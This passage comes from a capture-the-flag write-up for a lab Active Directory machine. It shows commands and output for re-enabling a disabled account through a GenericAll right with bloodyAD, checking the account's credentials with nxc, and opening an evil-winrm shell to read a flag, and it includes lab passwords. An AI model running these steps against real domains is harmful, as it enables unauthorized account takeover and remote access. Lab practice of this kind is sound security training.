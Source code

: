 ```bash
$ nxc smb puppy.htb -u adam.silver -p AtHxkTLqW6e9
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\adam.silver:AtHxkTLqW6e9 STATUS_ACCOUNT_DISABLED
```

but since I have `genericAll` on that user I just went ahead and enabled it

```bash
$ bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl
```
and now signing in works

```bash
$ nxc ldap puppy.htb -u adam.silver -p AtHxkTLqW6e9
LDAP        10.10.11.70     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB) (signing:None) (channel binding:No TLS cert)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\adam.silver:AtHxkTLqW6e9
```

and since `adam.silver` is a member of `REMOTE MANAGEMENT USERS` group, I can just use `evil-winrm` and get the flag

```bash
$ evil-winrm -i 10.10.11.70 -u adam.silver -p AtHxkTLqW6e9
/usr/lib/ruby/gems/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/fragment.rb:35: warning: redefining 'object_id' may cause serious problems
/usr/lib/ruby/gems/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/message_fragmenter.rb:29: warning: redefining 'object_id' may cause serious problems

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
/home/jeff/.gem/ruby/3.4.0/gems/rexml-3.4.2/lib/rexml/xpath.rb:67: warning: REXML::XPath.each, REXML::XPath.first, REXML::XPath.match dropped support for nodeset...
*Evil-WinRM* PS C:\Users\adam.silver\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\adam.silver\Desktop> ls


    Directory: C:\Users\adam.silver\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/28/2025  12:31 PM           2312 Microsoft Edge.lnk
-ar---         9/26/2025   6:11 PM             34 user.txt


*Evil-WinRM* PS C:\Users\adam.silver\Desktop> cat user.txt
a6****************************d8
*Evil-WinRM* PS C:\Users\adam.silver\Desktop>
```
